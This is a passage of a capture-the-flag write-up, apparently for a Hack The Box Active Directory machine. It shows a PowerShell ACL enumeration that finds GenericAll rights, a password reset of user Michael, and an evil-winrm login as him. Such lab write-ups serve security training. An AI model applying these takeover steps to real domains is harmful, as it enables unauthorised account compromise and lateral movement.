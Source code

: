 > `Michael Williams` is also a member of the `Remote Management Users` group.

---
## 🔑↔️  Horizontal Privilege Escalation

> I'll write a simple `PowerShell` script to check `ACL` access rights of `Olivia` over `Michael`:

```powershell

$target = "CN=Michael Williams,CN=Users,DC=administrator,DC=htb"
$entry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$target")
$ACL = $entry.ObjectSecurity.Access

foreach ($ace in $ACL) {
    if ($ace.IdentityReference -eq "administrator\olivia") {
        $ace
    }
}

```
> we use a script:

```bash

ActiveDirectoryRights : GenericAll
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ADMINISTRATOR\olivia
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

```

> We have `Generic All` rights over user `Michael Williams`

---

**Note:** `Generic All` - This is full control over the object, including password reset.

---

> Resetting password for `Michael`:

```bash

*Evil-WinRM* PS C:\Users> set-localuser -name 'Michael' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```
> Log in as user `Michael`:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\michael' -p 'NewPass123!'

```
```bash

*Evil-WinRM* PS C:\Users\michael\Documents> whoami
administrator\michael
*Evil-WinRM* PS C:\Users\michael\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

```